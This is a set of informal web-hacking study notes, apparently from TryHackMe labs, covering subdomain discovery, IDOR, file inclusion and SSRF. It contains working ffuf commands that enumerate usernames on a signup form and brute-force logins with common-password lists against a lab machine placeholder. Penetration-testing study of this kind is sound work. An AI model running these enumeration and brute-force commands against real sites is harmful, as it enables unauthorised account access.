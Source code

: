 # finding subdomains and pages
created for domain
discover subdomains registerd with https://crt.sh and https://ui.ctsearch.entrust.com/ui/ctsearchui
site:www.tryhackme.com  site:*.tryhackme.com can be used to find subdomains
dnsrecon try from list of common subdomains for example api part of website
Sublist3r uses above method and common sites to find subdomains ./sublist3r.py -d acmeitsupport.thm

Virtual hosts
find non public subdomains use ffuf for example hidden admin page ffuf -u https://codingo.io/FUZZ -w ./wordlist.txt replace "FUZZ" with whats in wordlist

# Authentication Bypass
get website url and respone when username already exists
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists" 
when usernames thats registred is found try fuff with password

ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200

# autchenticate Bypass
cookies is encoded or hashed that can be decoded if you know the format


# idor
http://online-service.thm/profile?user_id=1000
when you change for example id 
if its encoded with base64 or other you can guees the format and encod new online. worth to post to crackstation
if you cant detect id. Creat new account and swap encoded if you see others content found idor

# File inclusion
lfi rfi directory traversal
unsantized user input 

# ssrf
when user input is connected to api or database
